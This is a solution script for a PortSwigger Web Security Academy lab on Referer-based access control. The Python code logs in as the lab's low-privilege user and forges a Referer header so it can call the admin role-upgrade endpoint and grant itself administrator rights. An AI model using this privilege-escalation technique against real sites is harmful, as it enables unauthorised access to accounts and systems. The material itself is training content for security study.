 # Lab: Referer-based access control

Link to lab: https://portswigger.net/web-security/access-control/lab-referer-based-access-control

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0a32006b034577a3c23770b20057001f.web-security-academy.net/'

# Post login

data = {
    'username': 'wiener',
    'password': 'peter'
}

response = requests.post(
    url + 'login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['set-cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session,
}

headers = {
    'Referer': url + 'admin',
}

params = {
    'username': 'wiener',
    'action': 'upgrade',
}

response = requests.get(
    url + 'admin-roles',
    params=params,
    cookies=cookies,
    headers=headers,
    verify=False,
)

print(response.text)
```